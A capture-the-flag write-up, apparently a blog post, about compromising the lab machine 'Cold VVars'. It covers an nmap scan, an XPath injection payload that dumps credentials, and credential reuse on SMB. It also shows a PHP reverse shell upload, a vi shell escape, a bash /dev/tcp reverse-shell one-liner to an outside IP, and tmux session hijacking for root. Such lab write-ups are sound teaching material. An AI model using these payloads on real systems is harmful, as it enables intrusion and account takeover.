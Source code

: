 ```yaml
---
date: 2021-04-19 15:51:07
layout: post
title: "Cold VVars"
subtitle:
description:
image: /writeup/assets/img/coldvvars/war.jpg
optimized_image:
category:
tags:
author:
paginate: false
---
```


Starting with nmap scan shows 4 ports open
```bash
nmap -T4 -p- -A 10.10.29.88

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-19 21:09 IST
Nmap scan report for 10.10.29.88
Host is up (0.42s latency).

PORT     STATE SERVICE     VERSION
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
8080/tcp open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8082/tcp open  http        Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: Host: INCOGNITO

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 0s
|_nbstat: NetBIOS name: INCOGNITO, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: incognito
|   NetBIOS computer name: INCOGNITO\x00
|   Domain name: \x00
|   FQDN: incognito
|_  System time: 2021-04-19T15:39:28+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-19T15:39:30
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.62 seconds
```

Two websites running on port 8080 and 8082.
Fuzzed the websites and found /login on 8082 and /dev on 8080.

![placeholder](/writeup/assets/img/coldvvars/login.png "Login")

The login portal is vulnerable to XPath Injection and gave out all the login details using 
`" or 1=1 or "` in the username field.
![placeholder](/writeup/assets/img/coldvvars/details.png "Details")

Used all the login creds on smb port and found that ArthurMorgan account details work.


Inside the smb share "SECURED" found a note.txt which contains same content as the one at port `http://10.10.29.88:8080/dev/note.txt`.
This means this share is directly connected to the website's dev directory. 
![placeholder](/writeup/assets/img/coldvvars/smb.png "smb") 

Upload PHP reverse shell and get www-data shell into the machine.
Make the shell better by `python3 -c 'import pty;pty.spawn("/bin/bash")'` and then switch user to ArthurMorgan using same password as earlier.
![placeholder](/writeup/assets/img/coldvvars/shell.png "Better")

As the name of box suggests something about vars, so run command **env**.
![placeholder](/writeup/assets/img/coldvvars/vars.png "Vars")
There is one peculiar variable name **OPEN_PORT=4545**.


Open the port using nc and recieve a connection with some options to choose like a program connected to the port.
![placeholder](/writeup/assets/img/coldvvars/program.png "Program")

The 4th option of the program opens a vi terminal and that can be turned into shell by passing commands
```bash
:set shell=/bin/sh
:shell
```

The new shell is of marston user and kinda glitchy. Get a reverse shell using `bash -c 'bash -i >& /dev/tcp/10.4.14.69/8888 0>&1'`.
Make the shell better as done earlier and try to connect to opened tmux session. It fails to open with error *Not a Terminal*.


Use command `export TERM=xterm`

Now again attach to the tmux session
`tmux attach-session -t 0`
Keep exiting the screens untill a root shell appears
![placeholder](/writeup/assets/img/coldvvars/root.png "root")
